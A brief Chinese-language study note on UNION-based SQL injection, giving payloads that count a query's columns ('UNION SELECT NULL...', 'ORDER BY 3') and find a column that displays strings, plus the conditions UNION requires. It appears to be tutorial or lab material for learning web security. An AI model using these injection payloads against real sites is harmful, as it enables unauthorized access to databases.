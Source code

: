 # 显示的位数
方法①
```SQL
' UNION SELECT NULL,NULL,NULL--
```
方法②
```SQL
'ORDER BY 3--
```

# 找到字符串的显示位
```SQL
'UNION SELECT NULL,'AFGG',NULL--
```

UNION的使用条件
①行数相同②行中元素类型相同

